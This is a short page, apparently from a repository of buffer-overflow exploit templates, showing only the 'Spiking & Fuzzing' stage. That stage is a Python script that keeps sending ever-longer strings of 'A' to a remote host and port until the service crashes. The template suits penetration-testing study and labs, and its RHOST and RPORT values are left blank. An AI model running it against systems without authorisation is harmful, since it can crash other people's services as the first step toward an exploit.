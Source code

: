 The below is the Python templates for the different stages of BOF.

### Spiking & Fuzzing
`#!/usr/bin/python

import sys,socket
from time import sleep

buffer = "A" * 500
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21 

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((RHOST,RPORT))
        s.send(buffer + '\r\n')
        s.close()
        sleep(1)
        buffer += "A" * 500
    except:
        print("Debugger crashed at %s bytes" % str(len(buffer)))
        sys.exit`
